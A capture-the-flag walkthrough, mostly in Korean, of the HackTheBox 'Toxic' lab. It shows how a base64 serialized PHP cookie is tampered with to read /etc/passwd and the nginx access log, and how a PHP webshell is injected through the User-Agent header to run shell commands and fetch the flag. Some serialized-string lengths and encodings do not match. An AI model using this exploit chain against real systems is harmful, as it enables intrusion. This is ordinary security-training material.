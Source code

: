 
# HackTheBox Walkthrough - Room: Toxic

**Target IP**: 94.237.57.115:39582  
**Difficulty**: Medium  
**Objective**: Gain access to the system by exploiting insecure object deserialization and log poisoning, and retrieve the flag.  
![webpage](img/webpage.png)

---

## 🧭 Initial Access & Enumeration

### 🔎 Step 1: 페이지 소스 확인

- 브라우저로 `http://94.237.57.115:39582` 접속.
- 페이지는 간단한 텍스트와 함께 PHP로 구성된 것으로 보임.
- BurpSuite로 요청을 가로채고, 쿠키 값을 확인해보면 다음과 같은 `session` 쿠키가 존재함:  
![indexphp](img/indexphp.png)  
![burpsuit](img/burpsuit.png)

```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
```

### 🔍 Step 2: 쿠키 디코딩 및 분석

- 해당 값은 base64로 인코딩된 직렬화된 PHP 객체임.
- 디코딩:  
![decode](img/decode.png)

```php
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

→ PageModel 객체 안에 `file` 필드를 `/www/index.html` 로 설정한 상태.

### 💡 아이디어: Local File Inclusion 우회

- `PageModel` 객체 내부의 `file` 경로를 수정하여 `/var/flag` 혹은 `/etc/passwd` 등 시스템 파일을 참조해보자.

---

## 🧪 LFI 시도 및 차단 확인

### ✅ 정상 출력 (기존 쿠키):

```php
O:9:"PageModel":1:{s:4:"file";s:15:"/etc/passwd";}
```
![passwd](img/passwd.png)

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=`

### ❌ 실패한 flag 시도:

```php
O:9:"PageModel":1:{s:4:"file";s:9:"/var/flag";}
```
![burp2](img/burp2.png)

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo0OiJmbGFnIjt9`

---

## 🔥 Exploitation via Log Poisoning

### 💡 아이디어

- 로그 파일을 읽을 수 있다면, 그 안에 RCE 코드를 삽입해 `cmd=` 파라미터로 실행 가능.
- Nginx의 Access 로그 파일 경로는 보통: `/var/log/nginx/access.log`

### ✅ LFI 성공

```php
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

→ base64: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==`

이 쿠키로 요청 시 로그 내용이 HTML로 출력됨

---

## 🐚 RCE via PHP Code Injection (로그 포이즈닝)

### Step 1: 유저 에이전트(User-Agent)에 PHP 삽입

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

- 이 User-Agent는 access.log에 저장됨

### Step 2: 다시 access.log를 LFI로 열고 cmd 실행

```http
GET /?cmd=ls HTTP/1.1
Cookie: session=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```
![rce](img/rce.png)

→ 결과:

```
index.html
index.php
models
static
```

### Step 3: 상위 디렉토리 탐색

```http
GET /?cmd=ls ./../ HTTP/1.1
```

→ 결과:  
![findflag](img/findflag.png)

```
flag_B6HLk
```

### Step 4: 플래그 출력

```http
GET /?cmd=cat ./../flag_B6HLk HTTP/1.1
```

→ 결과:  
![flag](img/flag.png)

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술              | 설명                                                                 |
|-------------------|----------------------------------------------------------------------|
| Base64 디코딩      | 세션 쿠키로 전달되는 직렬화된 객체를 디코딩해 내부 구조 파악            |
| PHP Object Injection | 사용자 입력으로 PageModel 객체 내부의 파일 경로를 변경하여 LFI 시도     |
| Local File Inclusion | `file` 파라미터를 통해 access.log 파일을 불러와 원격 명령 실행 유도     |
| Log Poisoning      | `User-Agent`에 PHP 코드를 삽입 → 로그 파일을 PHP 파일처럼 실행           |
| Remote Code Execution | `cmd` 파라미터로 PHP 코드 실행 → 시스템 명령 실행                    |

---

## 🎯 최종 결과

- **플래그**: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`
- **획득 방법**: Nginx Access Log를 통한 로그 포이즈닝 + LFI + PHP RCE
